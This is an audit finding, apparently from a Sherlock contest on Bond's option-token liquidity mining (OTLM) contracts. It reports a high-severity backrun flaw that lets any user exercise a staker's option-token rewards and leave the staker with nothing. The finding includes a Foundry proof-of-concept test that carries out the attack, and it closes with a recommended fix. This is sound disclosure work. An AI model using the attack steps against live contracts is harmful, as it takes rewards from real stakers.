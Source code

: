 kutugu

high

# A malicious user can use a backrun attack to make the staking user lose the reward

## Summary

When OTLM allocates rewards, it allocates by optionTokens, not payoutTokens. As a result, anyone can exercise optionTokens through teller, and the quoteToken will be sent to the receiver instead of the staking user, so the staking user does not receive any reward.

## Vulnerability Detail

```solidity
    // FixedStrikeOTLM.t.sol
    function testBackrunAttack() public {
        _manualStrikeOTLM();

        vm.prank(bob);
        motlm.stake(1 ether, ZERO_BYTES);

        skip(motlm.epochDuration());

        vm.prank(bob);
        motlm.claimRewards();

        FixedStrikeOptionToken rewardToken = motlm.epochOptionTokens(1);
        uint256 rewardBalance = rewardToken.balanceOf(address(bob));

        def.mint(carol, 1e24);
        ghi.mint(carol, 3.5e22);
        vm.startPrank(carol);
        def.approve(address(teller), type(uint256).max);
        teller.create(rewardToken, 7e21);
        ghi.approve(address(teller), type(uint256).max);
        teller.exercise(rewardToken, rewardBalance);
        vm.stopPrank();
        
        uint256 bobPayoutBalance = def.balanceOf(address(bob));
        uint256 carolPayoutBalance = def.balanceOf(address(carol));
        uint256 bobQuoteTokenBalance = ghi.balanceOf(address(bob));
        uint256 aliceQuoteTokenBalance = ghi.balanceOf(address(alice));

        // bob get nothing
        assertEq(bobPayoutBalance, 0);
        assertEq(bobQuoteTokenBalance, 0);
        // carol lose Nothing
        assertEq(carolPayoutBalance, 1e24);
        // receiver get quoteToken after protocol fee
        assertEq(aliceQuoteTokenBalance, 3.5e22 * 95 / 100);
    }
```

The above code is an instantaneous backrun attack that causes the staking user to lose the reward and the attacker to lose nothing.

## Impact

A malicious user can use a backrun attack to make the staking user lose the reward   

## Code Snippet

- https://github.com/sherlock-audit/2023-06-bond/blob/fce1809f83728561dc75078d41ead6d60e15d065/options/src/fixed-strike/liquidity-mining/OTLM.sol#L508
- https://github.com/sherlock-audit/2023-06-bond/blob/fce1809f83728561dc75078d41ead6d60e15d065/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L354-L361

## Tool used

Foundry

## Recommendation

Rewards should be assigned as payoutTokens, not optionTokens. This way others can't attack, and it also solves the problem of optionTokens expiring.